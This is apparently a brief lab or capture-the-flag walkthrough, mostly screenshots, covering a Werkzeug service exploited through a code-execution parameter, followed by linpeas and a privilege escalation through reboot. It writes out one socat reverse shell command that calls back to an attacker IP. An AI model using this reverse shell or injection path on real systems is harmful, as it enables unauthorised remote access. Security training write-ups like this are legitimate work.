
Werkzeug is running on port 50000

Ferox:


Now trying verify:

We can pass in a code parameter so intercepting in burpsuite and sending a post request:

We have code execution and it is python. 

To get a reverse shell:

```
os.system('socat TCP:192.168.45.236:80 EXEC:sh')
```

Running linpeas now:



After getting a stable shell using ssh:
We can modify it:


Now we see that we have reboot privileges:

So rebooting we should get a shell:




